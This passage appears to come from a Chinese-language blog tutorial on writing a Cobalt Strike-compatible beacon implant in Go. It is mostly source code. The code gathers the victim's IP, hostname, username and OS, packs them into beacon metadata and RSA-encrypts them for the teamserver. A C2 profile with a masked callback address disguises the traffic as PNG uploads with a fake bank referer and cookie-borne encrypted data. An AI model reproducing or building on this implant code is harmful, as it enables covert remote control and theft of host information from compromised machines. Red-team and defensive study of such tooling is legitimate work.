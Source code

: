         localIP := sysinfo.GetLocalIPInt()    localIPBytes := make([]byte, 4)    binary.BigEndian.PutUint32(localIPBytes, uint32(localIP))  
        hostName := sysinfo.GetComputerName()    currentUser := sysinfo.GetUsername()    OS := sysinfo.GetCurrentOS()  
        osInfo := fmt.Sprintf("%s\t%s\t%s", hostName, currentUser, OS)    osInfoBytes := []byte(osInfo)    binary.BigEndian.PutUint32(localIPBytes, uint32(localIP))    onlineInfoBytes := util.BytesCombine(clientIDBytes, processIDBytes, sshPortBytes, flagBytes, majorVerBytes, minorVerBytes, buildBytes, ptrGMHGPABytes, ptrGMHBytes, ptrGPABytes, localIPBytes, osInfoBytes)  
        localeANSI := sysinfo.GetCodePageANSI()    localeOEM := sysinfo.GetCodePageOEM()    metaInfo := util.BytesCombine(config.GlobalKey, localeANSI, localeOEM, onlineInfoBytes)  
        magicNum := sysinfo.GetMagicHead()    metaLen := WritePacketLen(metaInfo)    packetToEncrypt := util.BytesCombine(magicNum, metaLen, metaInfo)    return packetToEncrypt}

  
封装完成之后，使用ts的公钥进行rsa加密：

  *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    func RsaEncrypt(origData []byte) ([]byte, error) {  
        block, _ := pem.Decode([]byte(config.RsaPublicKey))    if block == nil {        return nil, errors.New("public key error")    }    pubInterface, err := x509.ParsePKIXPublicKey(block.Bytes)    if err != nil {        return nil, err    }    pub := pubInterface.(*rsa.PublicKey)    return rsa.EncryptPKCS1v15(rand.Reader, pub, origData)}

  
 **测试上线 ****  
**如上，我们使用golang语言按照cobaltstrike的封包格式和源数据格式进行组包封装，看是否能够上线。
首先配置profile的内容，包括回连地址，全局变量c2profile.go。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    var (    RsaPublicKey string = "-----BEGIN PUBLIC KEY-----\nMIGfMA0GCSqGSIb3DQEBAQUAA4GN...-----END PUBLIC KEY-----"    C2 string = "***.**.***.**"    Port string = "**"    SSL bool = false    Sleep int = 2500    Jitter int = 500  
        GetPath string = "/api/getid"    GetPrepend int = 4    GetAppend int = 0  
        PostPath string = "/api/postid?s=1124&d_referer=http%3A%2F%2Fbank.pingan.com"    PostPrepend string = ".PNG"    PostAppend string = "")

  
配置http请求头

  *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    Getheader = req.Header{    "Cookie":"SESSIONID=%ENCDATA%",    "Accept":"*/*",    "User-Agent":"Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; NP06)",}  
    Postheader = req.Header{    "Cookie":"JSESSION=%ENCBEACONID%",    "Content-Type":"image/png",    "Accept":"*/*",    "User-Agent":"Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; WOW64; Trident/5.0; NP06)",}

  
然后调用源数据组包函数，获得rsa加密的源数据，再进行http封包，最终发送给ts。

  *   *   *   *   *   *   *   *   *   *   * 

    